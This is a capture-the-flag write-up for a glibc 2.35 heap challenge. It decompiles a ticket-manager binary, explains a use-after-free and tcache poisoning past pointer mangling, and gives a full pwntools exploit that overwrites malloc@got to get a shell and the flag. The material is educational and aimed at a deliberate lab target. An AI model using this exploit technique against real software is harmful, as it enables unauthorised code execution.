

DDC-Regionals 2023 Download
tickets-please [948]
Description
For this challenge, we are given a binary heap and a corresponding libc library.
Proposed difficulty: Hard
Jeg har lige opdateret min PC, og nu virker min heap challenge ikke længere... Kan du skrive et nyt exploit?
Download
nc tickets.hkn 1024
Recon
Patching the binary with pwninit, let's load it up in ghidra. The main function goes directly into menu, so let's check it out:
void menu(void)
{
void *name;
long *in_FS_OFFSET;
int id;
char *chunk;
char choice;
char choice_start;
long canary;
int index;
canary = in_FS_OFFSET[5];
puts("1. Create a ticket");
puts("2. Update a ticket");
puts("3. Validate ticket");
puts("4. Delete a ticket");
puts("5. Exit");
read(0,&choice,2);
if (choice_start == '\n') {
switch(choice) {
case '1':
puts("id:");
read_id(&id);
index = id;
name = malloc(100);
*(void **)(ticket_db + (long)index * 8) = name;
puts("Holder name:");
read_str(*(undefined8 *)(ticket_db + (long)id * 8));
break;
case '2':
puts("id:");
read_id(&id);
chunk = *(char **)(ticket_db + (long)id * 8);
puts("New holder name:");
read_str(chunk);
break;
case '3':
puts("id:");
read_id(&id);
chunk = *(char **)(ticket_db + (long)id * 8);
puts("Ticket holder name:");
puts(chunk);
break;
case '4':
puts("id:");
read_id(&id);
chunk = *(char **)(ticket_db + (long)id * 8);
if (chunk != (char *)0) {
free(chunk);
}
break;
case '5':
/* WARNING: Subroutine does not return */
exit(0);
default:
puts("Unknown option!");
}
}
else {
puts("menu error");
}
if (canary == in_FS_OFFSET[5]) {
return;
}
/* WARNING: Subroutine does not return */
__stack_chk_fail();
}
A classic heap-note challenge. We are able to create, update, view and delete chunks freely. Very freely. What immediately stands out, is that pointers aren't cleared in delete. This exposes multiple vulnerabilites:
-
We can potentially do a double free (depending on libc).
-
We can read chunks after they've been freed, leaking heap addresses.
-
We can write to freed chunks, potentially forging chunks.
Before thinking about exploits, let's first get the libc version:
$ ./libc.so.6
GNU C Library (Ubuntu GLIBC 2.35-0ubuntu3.1) stable release version 2.35.
Copyright (C) 2022 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 11.2.0.
libc ABIs: UNIQUE IFUNC ABSOLUTE
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.
Fairly modern, 2.35 is far more secure than older versions of libc. For one, malloc_hook has benn phased out, so that's a no-go. Hmmm, before getting creative, let's check for any win functions: Indeed, function win seems to be our goal:
void win(void)
{
system("/bin/bash");
return;
}
Let's also check the security:
gdb-peda$ checksec
CANARY : ENABLED
FORTIFY : disabled
NX : ENABLED
PIE : disabled
RELRO : Partial
No PIE, so easy to get win address. Also, only partial RELRO, which means we can overwrite the GOT.
Tcache poisoning - modern libc
As all chunks are allocated with size 100, they will inherently land in 0x70 bin of tcache. Combined with the UAF in update, we should be able to perform tcache posioning.
Tcache poisoning is perhaps the simplest of heap exploits. In order to understand how it works, we must first understand how tcache stores freed chunks.
Tcache is very similar to fastbins in nature. A list of entries are stored at the beginning of heap, each containing chunks of different sizes. Each entry contains a pointer to the first free chunk. From there, each chunk contains a pointer to the next free chunk.

This forward pointer, which I will now refer to as fd, is placed at the beginning of the chunk upon being freed. Tcache is actually very lenient about it; if we can overwrite the fd with our own address, libc will allocate that address as a chunk, allowing us to write anywhere in the program.
Things get more complicated when moving to newer versions of libc. Over the years, multiple security updates have hardened tcache, making it harder to exploit.
The most significant, is what happened in libc 2.32. Essentially, the fd is protected by the following calculation:
$\text{old}$ represents the address of the current chunk, $\text{new}$ represents the address of the chunk it's pointing to. When a given chunk is reallocated, fd is taken and xored by the address of that chunk, shifted to the right by 12. A more detailed explanation can be found here.
Another small thing to consider, is that tcache for some reason refuses to allocate a forged chunk when only one chunk has been freed. The address lands in tcache as it should, but unless a chunks fd is redirected from an existing free chunk, it won't be allocated.
Exploitation
As described in the previous section, we must know the address of the heap in order to forge our fd. Luckily, this is not a major problem, as we can simply read the chunks after they've been freed.
Creating two tickets and freeing them again, the second to be freed will be pointing back at the first. The first will also not be empty, containing the value to xor with (when libc reallocates it, the fd is xored by the same value, resulting in null).
Knowing this value, we can easily forge an fd to point towards the got. A thing to notice, is that libc will throw an error, if our fake chunk contains a pointer to libc upon allocation. I can't say exactly why this is, but it's easy to bypass. As system isn't called in the main program, it still contains a pointer to the lazy loader, which exists within the main binary. Conveniently, malloc@got is located just 16 bytes from there.
Overwriting malloc@got, we can simply create a new ticket to trigger the win function.
Solution
Based on the exploit described in the previous chapter. It took me longer to solve this challenge than it should've, simply because of errors I wasn't familier with. As described, the exploit will fail if the fake chunk contains a libc pointer, which took me a while to figure out. I also made the mistake of putting the wrong address in system@got, which caused system("/bin/bash") to fail.
from pwn import *
from Crypto.Util.strxor import strxor
elf = context.binary = ELF("./heap_patched")
libc = ELF("./libc.so.6")
context.gdbinit = "~/tools/pwndbg-src/gdbinit.py"
# conn = gdb.debug("./heap_patched", '''
# b *0x40135f
# b *0x0000000000401426
# b *win
# c
# ''')
# conn = process("./heap_patched")
conn = connect("tickets.hkn", 1024)
def address_from_bytes(by):
by += b"\x00" * (8 - len(by))
by = u64(by)
return by
def create_ticket(index, name):
conn.recvuntil(b"Exit\n")
conn.sendline(b"1")
conn.recvuntil(b":")
conn.sendline(str(index).encode())
conn.recvuntil(b":")
conn.sendline(name)
def update_ticket(index, name):
conn.recvuntil(b"Exit\n")
conn.sendline(b"2")
conn.recvuntil(b":")
conn.sendline(str(index).encode())
conn.recvuntil(b":")
conn.sendline(name)
def validate_ticket(index):
conn.recvuntil(b"Exit\n")
conn.sendline(b"3")
conn.recvuntil(b":")
conn.sendline(str(index).encode())
conn.recvuntil(b":\n")
return conn.recvline()[:-1]
def delete_ticket(index):
conn.recvuntil(b"Exit\n")
conn.sendline(b"4")
conn.recvuntil(b":")
conn.sendline(str(index).encode())
create_ticket(0, b"AAAA") # Create first ticket
create_ticket(1, b"BBBB") # Create second ticket
delete_ticket(0) # Delete first, now contains heap_address >> 12
delete_ticket(1) # Delete second, tcache recognizes bin[0] > bin[1]
leak = validate_ticket(0)
xor_leak = address_from_bytes(leak) # Get base to xor pointer with
print(f"Leaked xor-value {hex(xor_leak)}")
target = p64(elf.got["system"] ^ xor_leak)[:-1] # Xor fake fd
update_ticket(1, target) # Overwrite chunk->fd with system@got
create_ticket(0, b"CCCC") # Fill free chunk to inject fake chunk
payload = p64(0x401060) # Lazy loader for system
payload += p64(0x401070) # Lazy loader for read
payload += p64(elf.sym["win"]) # Overwrite malloc@got with win
payload = payload[:-1] # Avoid writing nullbyte into setvbuf@got (though it doesn't really matter)
create_ticket(1, payload) # Overwrite the got
conn.recvuntil(b"Exit\n") # Trigger malloc to win
conn.sendline(b"1")
conn.recvuntil(b":")
conn.sendline(b"lulz")
conn.interactive()
Running this exploit, we are dropped into a shell. The file flag contains the flag: DDC{Yep_pointer_mangling_has_a_narrow_use_case}